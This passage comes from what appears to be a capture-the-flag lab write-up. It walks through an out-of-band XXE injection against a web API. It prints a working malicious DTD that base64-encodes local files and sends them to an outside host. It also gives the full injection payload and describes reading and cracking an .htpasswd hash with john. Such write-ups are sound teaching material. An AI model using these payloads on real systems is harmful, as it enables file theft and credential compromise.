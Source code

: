 ```http

manage_api=<?xml version="1.0" encoding="UTF-8"?><root><method>POST</method><uri>/auth/register</uri><user><username>test</username><password>password123</password></user></root>
```

### XXE Injection for File read

We can try XXE Injection, however regular payloads do not work. We can bypass this by creating a DTD file and make the website send a GET request to process that file.

After some trial and error, I found that using the `php://filter/` method worked through base64 encoding the stuff. I was able to read some of the files.

```xml
<!ENTITY % file SYSTEM 'php://filter/convert.base64-encode/resource='>
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://10.10.14.152/?file=%file;'>">
%eval;
%exfiltrate;
```

<figure><img src="../../../.gitbook/assets/image (35) (1) (2).png" alt=""><figcaption></figcaption></figure>

Payload used:

```http
manage_api=<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.10.14.152/test.dtd"> %xxe;]><root><method>POST</method><uri>/auth/register</uri><user><username>test</username><password>password123</password></user></root>
```

From here, I wanted to read the `/var/www/developers/.htpasswd` file since we found a password on it earlier.

<figure><img src="../../../.gitbook/assets/image (42) (1).png" alt=""><figcaption></figcaption></figure>

Using `john`, we could crack the hash to give `r0cket` as the password. We were confronted with another login page.
